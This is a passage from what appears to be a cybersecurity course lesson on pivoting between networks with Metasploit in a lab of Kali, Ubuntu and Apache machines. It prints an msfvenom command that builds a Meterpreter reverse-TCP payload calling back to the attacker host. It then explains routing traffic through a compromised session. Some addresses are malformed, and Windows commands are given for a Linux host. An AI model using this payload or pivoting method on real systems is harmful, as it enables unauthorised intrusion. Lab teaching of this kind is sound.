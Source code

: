 > Adapter 2: Network Nat

The Kali machine with Metasploit Framework will be from where we will perform the intrusion. It has two network interfaces, one in NAT mode (eth1 simply to have access to the Internet) and eth0 with the assigned IP 10.0.0.1 which is part of the network 10.0.0.0.0/24. This machine has no direct visibility to the second network 11.0.0.0.0/24.

![kali-metasploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/kali-metasploit.png?raw=true)

The Ubuntu machine has two interfaces that have visibility with the network 10.0.0.0.0/24 and 11.0.0.0.0/24 will be the pivoting and the second Linux machine with a single interface with the assigned IP 11.0.0.0.10 which will have visibility to the network 11.0.0.0.0.0/24, this will be a possible vulnerable machine as it will have an Apache web service that we will have to try to reach from the Kali machine.

![ubuntu](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/ubuntu.png?raw=true)

## Establish a Meterpreter session on the Ubuntu machine (pivoting)

The operation of the types of pivoting within the possibilities offered by Metasploit Framework we must start by obtaining a Meterpreter session on one of the computers on the network, in this case, will be the Ubuntu which has visibility with the two networks within this laboratory, this will be the machine that will make us pivoting to the networks that have configured. For this scenario, we can generate with msfvenom a payload in which its shellcode will be a Linux meterpreter and execute it in the remote machine to obtain this session.

```bash
msfvenom -p Linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o payload
```

- *b '\x00\x0a\x0d'*: (--bad-chars) Parameter in which you can specify a list of characters to avoid, so that it does not cause a possible error at the moment of executing the payload. In this case, these *[opcodes](https://en.wikipedia.org/wiki/Opcode)* would be valid.

![opcodes](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/opcodes.png?raw=true)

## Route

Once we have a session established with the Ubuntu machine, we start the interpreter and one way to check the associated networks is to list the network interfaces with *ipconfig* to check if there are any IP addresses assigned that are part of a different network segment. We could also run a *shell* inside meterpreter and query the routing table with the *route print* command. As we can see the network 10.0.0.0.0/24 is shown on interface 2 and 11.0.0.0.0/24 on interface 3.

![route](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/route.png?raw=true)

***Route*** is a command that will allow us to route network traffic within Metasploit, telling it that from any module all the traffic that we want to carry to another network will do it through the identifier of an established session that we have active, for example with a Meterpreter.

We exit the meterpreter session and leave it in the background by exiting with the *background* command. Out of meterpreter and knowing that the Ubuntu machine has two networks configured, we make use of the route command to add the visibility of this new network at the Metasploit level.
